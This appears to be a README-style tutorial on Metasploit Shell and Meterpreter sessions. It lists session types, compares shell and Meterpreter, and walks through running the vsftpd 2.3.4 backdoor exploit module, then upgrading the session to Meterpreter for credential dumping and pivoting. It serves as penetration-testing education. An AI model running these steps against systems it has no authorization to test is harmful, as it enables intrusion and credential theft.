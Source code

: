 ## Mastering Metasploit: Shell & Meterpreter Sessions

Metasploit is one of the most powerful penetration testing frameworks available today, providing security professionals, ethical hackers, and researchers with a robust set of tools for vulnerability exploitation, reconnaissance, and post-exploitation tasks. Developed by Rapid7, Metasploit enables users to simulate real-world cyberattacks, assess security defenses, and identify weaknesses before malicious actors do.

Among its many capabilities, session management is one of the most crucial aspects of post-exploitation. Sessions determine the level of access, interaction, and control that an attacker has over a compromised system. Understanding how to work with Shell and Meterpreter sessions in Metasploit is key to conducting effective security assessments.

Understanding Metasploit Sessions
When an exploit successfully compromises a target system, a session is created. This session acts as a communication channel between the attacker’s system and the compromised machine. Sessions can vary in terms of functionality, from a simple command shell to a fully interactive and stealthy post-exploitation environment like Meterpreter.

Types of Metasploit Sessions;

1. Shell Sessions – A basic command-line access to the target system, offering minimal functionality.
2. Command Shell Sessions – A slightly more interactive environment that allows system commands to be executed with better stability.
3️⃣ VNC Sessions – A graphical interface that enables GUI-based control over the compromised system.
4️⃣ HTTP/HTTPS Shells – These use HTTP/S communication to bypass firewalls and proxy restrictions, making them stealthier.
5️⃣ Java Shells – Payloads that exploit Java vulnerabilities to execute commands remotely.
6️⃣ PowerShell Sessions – Specifically for Windows systems, allowing deep integration with PowerShell scripting.
7️⃣ Android Meterpreter – A session type designed for Android devices, providing deep access to files, cameras, and system data.
8️⃣ PHP Web Shells – Used to compromise web servers via vulnerable web applications.
9️⃣ Custom Sessions – Tailor-made payloads generated using msfvenom for highly specific attack scenarios.

Shell vs. Meterpreter: Which One to Use?
While shell sessions provide only basic access to a target machine, Meterpreter offers a much more powerful and flexible approach to post-exploitation. Meterpreter is a dynamically extensible payload that allows for advanced reconnaissance, privilege escalation, file system manipulation, and pivoting within a network—all without ever writing to disk, making it stealthier.

Key Differences
Feature	Shell Session	Meterpreter Session
Functionality	Basic command execution	Advanced post-exploitation toolkit
Persistence	No built-in persistence	Can be made persistent
File System Access	Limited	Full file system access
Privilege Escalation	Manual	Automated with built-in commands
Stealth	Easily detected	Memory-resident, harder to detect
Networking	No pivoting capabilities	Can route traffic through target system
Session Management in Metasploit
After gaining access to a system, managing sessions efficiently is crucial. The following commands help in handling active sessions within Metasploit:

List active sessions:
bash
Copy
Edit
sessions -l
Interact with a specific session:
bash
Copy
Edit
sessions -i <session-id>
Upgrade a shell session to Meterpreter:
bash
Copy
Edit
sessions -u <session-id>
Kill a session:
bash
Copy
Edit
sessions -k <session-id>
Generating and Using Multiple Sessions
The ability to run multiple sessions is an advantage in penetration testing. The steps below outline how to initiate multiple sessions using Metasploit.

1️⃣ Start Metasploit

bash
Copy
Edit
sudo msfconsole
2️⃣ Search for an exploit or payload

bash
Copy
Edit
search vsftpd
3️⃣ Use an exploit and configure the target

bash
Copy
Edit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-IP>
set payload cmd/unix/interact
4️⃣ Execute the exploit

bash
Copy
Edit
exploit
5️⃣ View active sessions and upgrade shell to Meterpreter

bash
Copy
Edit
sessions -l
sessions -u 1
At this point, a Shell Session is upgraded to a Meterpreter Session, allowing deeper system access. With Meterpreter, one can manipulate files, dump credentials, escalate privileges, and pivot through a network to expand an attack surface.

Ethical Considerations and Responsible Usage
While Metasploit is a powerful penetration testing tool, its use must align with ethical hacking principles and legal regulations. Conducting unauthorized security assessments, exploiting systems without permission, or misusing these techniques can result in severe legal consequences.

🛑 This project is strictly for educational purposes. The author assumes no responsibility for any misuse or illegal activity. Users must ensure compliance with applicable cybersecurity laws and ethical guidelines.

Conclusion
Understanding Shell and Meterpreter sessions is an essential skill for cybersecurity professionals. While a basic shell provides minimal access, Meterpreter unlocks powerful post-exploitation capabilities that can be leveraged for in-depth security assessments. By mastering session management and payload deployment, security teams can strengthen defenses, mitigate vulnerabilities, and enhance organizational security postures.

🚀 Cybersecurity is a responsibility. Learn it, use it, and protect systems ethically!
